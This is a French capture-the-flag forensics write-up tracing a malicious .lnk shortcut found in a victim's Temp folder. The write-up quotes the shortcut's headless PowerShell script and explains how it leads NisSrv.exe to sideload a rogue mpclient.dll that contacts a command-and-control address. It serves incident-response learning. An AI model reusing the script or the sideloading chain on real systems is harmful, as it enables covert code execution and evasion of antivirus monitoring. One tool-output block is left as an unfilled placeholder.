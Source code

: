 ```yaml
---
title: "GCC-CTF 2024 · Forensique  · Pretty Links"
date: 2024-03-04T13:06:22+02:00
draft: false
---
```


> Article décliné du write-up issu du challenge *Pretty Links* (Forensique) du [GCC CTF 2024](https://gcc-ctf.com/).

Scénario : 

> Suite à la compromission d'un partenaire, votre collègue doit capturer le système de fichiers d'une machine victime. Un fichier étrange a attiré l'attention au cours de son enquête. Trouver le binaire utilisé pour initier l'exécution indirecte de la commande, l'IP et le port de l'attaquant.

## Résumé

`Temp` est un dossier parfois utilisé par les attaquants pour cacher des exécutables ou des fichiers malveillants, c'est le cas ici. Il contient des fichiers qui ne devraient pas se trouver à cet endroit tels que `NisSrv.exe`, `Facture.pdf`, `Facture.pdf.lnk` et `mpclient.dll`.

`Facture.pdf.lnk` est fichier raccourci, invisible dans un explorer Windows classique, qui est exécuté lorsque `Facture.pdf` est ouvert. Dans ce challenge, le raccourci contient un script Powershell malveillant qui lance `NisSrv.exe` (binaire légitime), qui **n'est pas** le malware. L'utilisation de l'outil [LECmd](https://www.sans.org/tools/lecmd/) permet de mieux comprendre ce que contient le fichier `Facture.pdf.lnk`, notamment qu'il abuse de `conhost.exe` et de `NisSrv.exe`.

`NisSrv.exe` utilise plusieurs `dll` dont `mpclient.dll`. De part la façon dont elles sont gérées par Windows, c'est une dll malveillante qui est chargée par le programme. Cela conduit le programme à se connecter à un C2.

La kill-chain et le script Powershell me font penser que ce comportement sert à outrepasser la surveillance d'un antivirus ou d'un EDR.

## Identification des fichiers suspects

Le challenge se présente sous la forme d'une image disque. On peut la monter avec [Autopsy](https://www.autopsy.com/) ou [FTKImager](https://www.exterro.com/digital-forensics-software/ftk-imager). Attention, Autopsy ne supporte pas tous les types d'image. Il est parfois nécessaire d'exporter l'arborescence du système de fichier avec FTKImager et de lancer Autopsy sur cet export. Cette méthode n'est pas parfaite mais dans le cadre de ce challenge, c'est suffisant.

Néanmoins, Autopsy ne va pas nous aider dans ce challenge. Pour trouver l'endroit où se cachent les fichiers malveillants, il faut chercher dans les endroit souvent utilisés par des attaquants. Le dossier `Temp` local fait partie de ceux-là (`AppData\Local\Temp`). Il contient les fichiers suivants :

```
- NisSrv.exe
- Facture.pdf
- Facture.pdf.lnk
- mpclient.dll
```

## Analyse du fichier PDF

Ma première hypothèse était que le fichier `Facture.pdf.lnk` et `Facture.pdf.lnk` étaient malveillants. En analysant `Facture.pdf.lnk` avec [LECmd](https://www.sans.org/tools/lecmd/) on obtient beaucoup d'informations : 

```
mettre l'output de l'outil ici
```

Analysons ce que fait le script Powershell :

```
--headless "%WINDIR%\System32\WindowsPowerShell\v1.0\powershell.exe" 
"$zweeki=$env:Temp;
$ocounselk=[System.IO.Path]::GetFullPath($zweeki);
$poledemy = $pwd;
Copy-Item "$poledemy\*" -Destination $ocounselk -Recurse -Force | Out-Null;
 C:\Users\sieur\AppData\Local\Temp - Recurse -Force
cd $ocounselk;
;
.\Facture.pdf;
.\NisSrv.exe" ProgramFiles(x86)%\Microsoft\Edge\Application\msedge.exe
```

Pour résumer, il lance une console Powershell en *headless*, donc sans ouvrir d'interface graphique. Dans cette console, l'action qui est effectuée est de copier de manière récursive le contenu du dossier utilisateur (`C:\Users\<user>`) dans le dossier temporaire local (`C:\Users\<user>\AppData\Local\Temp`).

Enfin, le script rentre dans le dossier `Temp`, ouvre `Facture.pdf` et exécute `NisSrv.exe` avec l'application Edge en argument.

J'ai ensuite dirigé mes recherches sur le fichier PDF qui aurait pu contenir un script `Javascript` exécuté à l'ouverture du fichier pour se connecter à un C2. Cependant, l'analyse du fichier PDF n'a rien donné. J'ai utilisé 
[pdf-parser.py](https://blog.didierstevens.com/programs/pdf-tools/), [pdfid.py](https://blog.didierstevens.com/programs/pdf-tools/) et [pdftool.py](https://blog.didierstevens.com/programs/pdf-tools/). J'ai donc choisi de rediriger mes recherche sur `NisSrv.exe` et `mpclient.dll`.

## Analyse de NisSrv.exe et mpclient.dll

Ce sont deux noms de fichiers relatifs à des utilitaires Windows. Le programme a le bon hash mais la dll est notée [malveillante sur VirusTotal](https://virustotal.com/gui/file/59e45d499a96a169b726f717a836aff6e19113bca8cd5c2fba3362708810be4e). La dll initie deux connexions dont une vers `172.29.107.95:7894 (TCP)`. Un `strings` sur `NisSrv.exe` indique que ce programme utilise `mpclient.dll`.

Sous Windows, lorsqu'un exécutable demande une `dll`, le système va d'abord regarder si cette `dll` se trouve dans le même dossier que l'exécutable. Si le nom correspond, alors cette dernière est chargée et l'exécutable peut utiliser les fonctionnalités contenues à l'intérieur. Ici, il n'y a pas de vérification de la signature de la dll, ce qui conduit le programme `NisSrv.exe` à utiliser le mauvais `mpclient.dll` qui va le corrompre et initier une communication vers le C2.

## Récapitulatif

Lorsque le fichier lnk est exécuté, le script Powershell est exécuté, faisant une copie récursive du dossier utilisateur dans le dossier temporaire. De part la façon dont fonctionne Windows, c'est `conhost.exe` qui permet de lancer Powershell. Pour l'utilisateur, le fichier PDF s'ouvre et l'utilitaire `NisSrv.exe` est également lancé afin de sécuriser cette action.

`NisSrv.exe` a besoin de `mpclient.dll` et va d'abord la chercher dans le même dossier que lui. C'est à ce moment que la mauvaise dll est chargée par le programme qui va se faire corrompre pour se connecter à un C2. VirusTotal est en capacité de nous fournir l'adresse et le port de la connexion mais un reverse de la dll aurait pu nous donner cet IOC.

Il reste la question de la copie du dossier utilisateur dans le dossier local. Mon hypothèse est que l'attaquant veut comprendre où il se trouve et les fichiers de l'utilisateur pourraient lui permettre de se situer.

Le deuxième avantage avec cette méthode est qu'il pourrait permettre de passer sous la détection d'un antivirus ou d'un EDR. Il semble plus légitime qu'un programme travaille sur des fichiers situés dans un dossier temporaire, plutôt que sur les fichiers de l'utilisateur.
